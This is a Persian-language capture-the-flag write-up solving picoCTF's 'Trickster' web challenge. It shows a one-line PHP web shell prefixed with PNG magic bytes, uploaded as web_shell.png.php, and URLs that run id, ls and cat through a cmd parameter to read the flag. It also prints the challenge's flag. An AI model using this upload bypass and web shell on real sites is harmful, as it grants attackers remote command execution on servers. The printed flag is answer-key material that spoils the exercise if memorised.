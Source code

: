 ```yaml
---
tags:
  - WEB
---
```

# Trickster

 چالش وب اوردیم براتووون!!
 [picoCTF](https://play.picoctf.org/practice/challenge/428) 
 و قراره راه حلش رو شرح بدیم.

<center>
![Trickster1.png](Trickster1.png)
</center>

سورس کد فرانت در مرورگر:
``` html
<!DOCTYPE html>
<html>
<head>
    <title>File Upload Page</title>
</head>
<body>
    <h1>به برنامه پردازش PNG من خوش آمدید</h1>
    <form method="POST" enctype="multipart/form-data">
        <input type="file" name="file" accept=".png">
        <input type="submit" value="Upload File">
    </form>
</body>
</html>
```

هیچ اطلاعاتی درباره محل ذخیره فایل دریافت نمی‌کنیم، اما معمولاً فایل‌های آپلودی در دایرکتوری /uploads ذخیره می‌شوند.

برای تأیید محل ذخیره‌سازی، یک فایل آزمایشی (مثلاً test_file.png) آپلود می‌کنیم و سپس آدرس زیر را در مرورگر تست می‌کنیم:
``` url
http://atlas.picoctf.net:53321/uploads/test_file.png
```

فایل نمایش داده می‌شود! این تأیید می‌کند که فایل‌های آپلودی در دایرکتوری /uploads ذخیره می‌شوند و قابل دسترسی هستند.

حالا که می‌دانیم فایل‌ها در /uploads ذخیره می‌شوند، سعی می‌کنیم یک وب‌شل (Web Shell) را به‌عنوان یک فایل PNG آپلود کنیم. وب‌شل ما باید پسوند .png داشته باشد و شامل بایت‌های جادویی (Magic Bytes) PNG باشد تا به‌عنوان یک فایل PNG معتبر شناسایی شود. کد وب‌شل به این صورت است:

``` php
�PNG<?php system($_GET["cmd"]); ?>
```

با استفاده از ابزار xxd، ساختار هگزادسیمال فایل را بررسی می‌کنیم:
``` hex
00000000: 8950 4e47 3c3f 7068 7020 7379 7374 656d  .PNG<?php system
00000010: 2824 5f47 4554 5b22 636d 6422 5d29 3b20  ($_GET["cmd"]); 
00000020: 3f3e 0a
```

بایت‌های ابتدایی (89 50 4E 47) نشان‌دهنده یک فایل PNG معتبر است. این فایل را با نام web_shell.png.php ذخیره کرده و از طریق فرم وب‌سایت آپلود می‌کنیم.

پس از آپلود، وب‌شل در آدرس زیر قابل دسترسی است:

``` url
http://atlas.picoctf.net:53321/uploads/web_shell.png.php
```

برای تست، یک دستور ساده مثل id را اجرا می‌کنیم:
``` url
http://atlas.picoctf.net:53321/uploads/web_shell.png.php?cmd=id
```

خروجی :
``` text
�PNGuid=33(www-data) gid=33(www-data) groups=33(www-data)
```

وب‌شل کار می‌کند! حالا می‌توانیم دستورات را از طریق پارامتر cmd اجرا کنیم.

معمولاً دایرکتوری اصلی وب‌سرور در /var/www/html قرار دارد. برای بررسی محتویات این دایرکتوری، دستور ls را اجرا می‌کنیم:

خروجی:
``` text
�PNGtotal 16
drwxrwxrwt 1 www-data www-data   21 Mar 11 23:59 .
drwxr-xr-x 1 root     root       18 Nov 21  2023 ..
-rw-r--r-- 1 root     root       49 Mar 11 23:59 GNTDOMBWGIZDE.txt
-rw-r--r-- 1 root     root     1572 Feb  7 17:25 index.php
-rw-r--r-- 1 root     root      415 Feb  7 17:25 instructions.txt
-rw-r--r-- 1 root     root       62 Feb  7 17:25 robots.txt
drwxr-xr-x 1 www-data root       31 Jul 13 08:50 uploads
```

فایل GNTDOMBWGIZDE.txt مشکوک به نظر می‌رسد و ممکن است حاوی پرچم باشد.

برای خواندن فلگ به url زیر می رویم.
``` url
http://atlas.picoctf.net:53321/uploads/web_shell.png.php?cmd=cat%20/var/www/html/GNTDOMBWGIZDE.txt
```

و فلگ پیدا شد !

``` text
�PNG/* picoCTF{png_trickster_12345678} */
```

??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`picoCTF{png_trickster_12345678}`</div>

--- 

!!! نویسنده
    [sw33tw3as3l](https://github.com/sw33tw3as3l)
